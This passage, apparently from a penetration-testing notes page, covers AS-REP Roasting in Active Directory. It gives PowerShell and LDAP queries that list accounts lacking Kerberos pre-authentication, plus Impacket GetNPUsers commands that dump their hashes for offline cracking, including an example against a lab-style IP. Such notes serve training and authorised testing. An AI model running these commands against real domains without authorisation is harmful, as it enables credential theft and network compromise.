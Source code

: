 

### Using PowerShell to Enumerate users susceptible to AS-REP Roasting:

-   **Vanilla Powershell**:
```powershell
(New-Object DirectoryServices.DirectorySearcher "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll() | ForEach-Object { $_.Properties | Select-Object @{n='sAMAccountName';e={$_['sAMAccountName'][0]}}, @{n='displayName';e={$_['displayName'][0]}} }
```
-   {{< figure src="/ox-hugo/2024-11-14-202255_.png" >}}



### Using PowerShell &amp; AD Module to Enumerate users susceptible to AS-REP Roasting:

-   **Powershell Active Directory Powershell Module**:
```powershell
# Shows all details for User Account
Get-ADUser -Filter {DoesNotRequirePreAuth -eq 'True'} | fl

# Provides just the name
Get-ADUser -filter {DoesNotRequirePreAuth -eq 'True'} | select name
```
-   {{< figure src="/ox-hugo/2024-11-14-202419_.png" >}}
-   {{< figure src="/ox-hugo/2024-11-14-202842_.png" >}}

-   **Using Powershell AD Module &amp; an LDAP filter**:
```powershell
Get-ADObject -LdapFilter  "(&(&(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))))"
```

-   {{< figure src="/ox-hugo/2024-11-14-200314_.png" >}}


## AS-REP Roasting +Attack+ Tools: {#as-rep-roasting-tools}



### Using Impacket-GetNPUsers for AS-REP Roasting Attack:

```shell
# General command to find AS-REP roastable accounts
impacket-GetNPUsers $domain/ -request -format hashcat -outputfile hashes.txt

# With a specified users file and domain controller IP
GetNPUsers.py [DOMAIN]/ -dc-ip [DC_IP] -usersfile [UserFile] -format hashcat -outputfile hashes.txt -no-pass

# Example usage
GetNPUsers.py SUGARAPE/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass

```
-   {{< figure src="/ox-hugo/2024-11-14-203746_.png" >}}
